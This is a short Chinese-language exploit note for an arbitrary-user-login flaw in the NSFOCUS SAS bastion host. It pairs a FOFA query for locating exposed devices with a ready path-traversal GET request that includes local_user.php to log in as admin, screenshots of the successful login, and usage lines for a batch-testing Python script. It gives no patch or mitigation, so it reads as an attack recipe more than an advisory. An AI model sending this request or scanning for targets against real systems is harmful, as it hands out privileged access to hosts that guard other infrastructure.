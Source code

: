 绿盟 SAS堡垒机 local_user.php 任意用户登录漏洞
1.漏洞描述
绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487092994-e4fea1fd-973a-430a-adab-aef472f1901a.png)

### 2.fofa语法

```plain
body="'/needUsbkey.php?username='"
```

### 3.漏洞复现

```plain
GET /api/virtual/home/status?cat=../../../../../../../../../../../../../../usr/local/nsfocus/web/apache2/www/local_user.php&method=login&user_account=admin HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487297499-d6c71d48-fb16-454c-8f27-e10ad813fcee.png)

登录成功

![img](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719487263928-ac3127d3-5d77-4b0b-a348-763ee329e3a6.png)

### 4.py脚本使用

```
python3 文件名 -f url.txt # 批量测试url
python3 文件名 -u http://127.0.0.1 # 单个测试url
```
